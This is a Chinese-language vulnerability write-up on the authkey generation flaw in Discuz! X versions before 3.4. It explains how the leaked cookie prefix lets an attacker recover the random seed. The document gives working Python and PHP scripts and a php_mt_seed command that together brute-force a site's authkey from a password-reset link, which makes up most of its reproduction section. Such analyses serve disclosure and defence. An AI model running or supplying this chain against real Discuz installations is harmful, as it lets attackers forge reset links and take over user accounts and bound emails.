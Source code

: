 Discuz! X \< 3.4 authkey 算法的安全性漏洞
=========================================

一、漏洞简介
------------

2017年8月1日，Discuz!发布了X3.4版本，此次更新中修复了authkey生成算法的安全性漏洞，通过authkey安全性漏洞，我们可以获得authkey。系统中逻辑大量使用authkey以及authcode算法，通过该漏洞可导致一系列安全问题：邮箱校验的hash参数被破解，导致任意用户绑定邮箱可被修改等...

二、漏洞影响
------------

php\>5.3+php-curl\<=7.54

-   Discuz\_X3.3\_SC\_GBK

-   Discuz\_X3.3\_SC\_UTF8

-   Discuz\_X3.3\_TC\_BIG5

-   Discuz\_X3.3\_TC\_UTF8

-   Discuz\_X3.2\_SC\_GBK

-   Discuz\_X3.2\_SC\_UTF8

-   Discuz\_X3.2\_TC\_BIG5

-   Discuz\_X3.2\_TC\_UTF8

-   Discuz\_X2.5\_SC\_GBK

-   Discuz\_X2.5\_SC\_UTF8

-   Discuz\_X2.5\_TC\_BIG5

-   Discuz\_X2.5\_TC\_UTF8

三、复现过程
------------

### 漏洞分析

在dz3.3/upload/install/index.php 346行

![](./resource/Discuz!X<3.4authkey算法的安全性漏洞/media/rId25.png)

我们看到authkey是由多个参数的md5前6位加上random生成的10位产生的。

跟入random函数

![](./resource/Discuz!X<3.4authkey算法的安全性漏洞/media/rId26.png)

当php版本大于4.2.0时，随机数种子不会改变

我们可以看到在生成authkey之后，使用random函数生成了4位cookie前缀

    $_config['cookie']['cookiepre'] = random(4).'_';

那么这4位cookie前缀就是我们可以得到的，那我们就可以使用字符集加上4位已知字符，爆破随机数种子。

首先我们需要先获得4位字符

![](./resource/Discuz!X<3.4authkey算法的安全性漏洞/media/rId27.png)

> 如上图所示，前四位是**sW7c**

然后通过脚本生成用于php\_mt\_seed的参数

> 这里需要修改第13行代码，替换你自己的cookie前四位

    # coding=utf-8
    w_len = 10
    result = ""
    str_list = "ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789abcdefghijklmnopqrstuvwxyz"
    length = len(str_list)
    for i in xrange(w_len):
        result+="0 "
        result+=str(length-1)
        result+=" "
        result+="0 "
        result+=str(length-1)
        result+=" "
    sstr = "sW7c"
    for i in sstr:
        result+=str(str_list.index(i))
        result+=" "
        result+=str(str_list.index(i))
        result+=" "
        result+="0 "
        result+=str(length-1)
        result+=" "
    print result

得到参数,使用php\_mt\_seed脚本

https://github.com/ianxtianxt/php-mt\_rand

    ./php_mt_seed 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 54 54 0 61 22 22 0 61 33 33 0 61 38 38 0 61 > result.txt

这里我获得了245组种子

接下来我们需要使用这245组随机数种子生成随机字符串

    <?php
    function random($length) {
        $hash = '';
        $chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789abcdefghijklmnopqrstuvwxyz';
        $max = strlen($chars) - 1;
        PHP_VERSION < '4.2.0' && mt_srand((double)microtime() * 1000000);
        for($i = 0; $i < $length; $i++) {
            $hash .= $chars[mt_rand(0, $max)];
        }
        return $hash;
    }
    $fp = fopen('result.txt', 'rb');
    $fp2 = fopen('result2.txt', 'wb');
    while(!feof($fp)){
        $b = fgets($fp, 4096);
        if(preg_match("/seed = (\d)+/", $b, $matach)){
            $m = $matach[0];
        }else{
            continue;
        }
        // var_dump(substr($m,7));
        mt_srand(substr($m,7));
        fwrite($fp2, random(10)."\n");
    }
    fclose($fp);
    fclose($fp2);

当我们获得了所有的后缀时，我们需要配合爆破6位字符（0-9a-f）来验证authkey的正确性,由于的数量差不多16\*\*6\*200+,为了在有限的时间内爆破出来，我们需要使用一个本地爆破的方式。

这里使用了找回密码中的id和sign参数，让我们一起来看看逻辑。

当我们点击忘记密码的时候。

会进入`/source/module/member/member_lostpasswd.php`
65行生成用于验证的sign值。

![](./resource/Discuz!X<3.4authkey算法的安全性漏洞/media/rId28.png)

跟随make\_getpws\_sign函数进入`/source/function/function_member.php`

![](./resource/Discuz!X<3.4authkey算法的安全性漏洞/media/rId29.png)

然后进入dsign函数，配合authkey生成结果

![](./resource/Discuz!X<3.4authkey算法的安全性漏洞/media/rId30.png)

这里我们可以用python模拟这个过程，然后通过找回密码获得uid、id、sign，爆破判断结果。

### poc

> http://www.0-sec.org/dz3.3/member?mod=getpasswd&uid=2&id=vnY6nW&sign=af3b937d0132a06b
>
> 自行修改第7,8,13行代码

    # coding=utf-8
    import itertools
    import hashlib
    import time
    def dsign(authkey):
        url = "http://127.0.0.1/dz3.3/"
        idstring = "vnY6nW"
        uid = 2
        uurl = "{}member.php?mod=getpasswd&uid={}&id={}".format(url, uid, idstring)
        url_md5 = hashlib.md5(uurl+authkey)
        return url_md5.hexdigest()[:16]
    def main():
        sign = "af3b937d0132a06b"
        str_list = "0123456789abcdef"
        with open('result2.txt') as f:
            ranlist = [s[:-1] for s in f]
        s_list = sorted(set(ranlist), key=ranlist.index)
        r_list = itertools.product(str_list, repeat=6)
        print "[!] start running...."
        s_time = time.time()
        for j in r_list:
            for s in s_list:
                prefix = "".join(j)
                authkey = prefix + s
                # print dsign(authkey)
                if dsign(authkey) == sign:
                    print "[*] found used time: " + str(time.time() - s_time)
                    return "[*] authkey found: " + authkey
    print main()

![](./resource/Discuz!X<3.4authkey算法的安全性漏洞/media/rId32.png)

![](./resource/Discuz!X<3.4authkey算法的安全性漏洞/media/rId33.png)

参考链接
--------

> https://lorexxar.cn/2017/08/31/dz-authkey/\#%E6%BC%8F%E6%B4%9E%E8%AF%A6%E6%83%85
